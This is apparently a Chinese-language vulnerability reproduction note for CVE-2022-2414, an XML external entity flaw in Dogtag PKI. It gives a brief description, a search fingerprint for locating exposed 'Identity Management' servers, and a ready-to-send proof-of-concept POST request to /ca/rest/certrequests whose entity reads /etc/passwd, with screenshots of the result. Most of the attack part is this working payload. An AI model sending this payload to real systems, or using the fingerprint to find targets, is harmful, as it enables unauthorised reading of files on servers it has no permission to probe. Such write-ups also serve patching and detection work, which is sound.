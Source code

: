 # Dogtag PKI XML实体注入漏洞 CVE-2022-2414

## 漏洞描述

Dogtag PKI 的XML解析器存在安全漏洞，该漏洞源于在分析 XML 文档时访问外部实体可能会导致 XML 外部实体 （XXE） 攻击。此漏洞允许远程攻击者通过发送特制的 HTTP 请求来潜在地检索任意文件的内容。

## 漏洞影响

<a-checkbox checked>Dogtag PKI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Identity Management" </a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1666109777446-b643ca9b-dea3-4ac4-8bf0-8f34f1eec640.png)

验证POC

```java
POST /ca/rest/certrequests
Content-Type: application/xml

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<CertEnrollmentRequest>
  <Attributes/>
  <ProfileID>&ent;</ProfileID>
</CertEnrollmentRequest>
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1666110160561-329b89b1-2d6a-47a7-b026-45b0b7ef6670.png)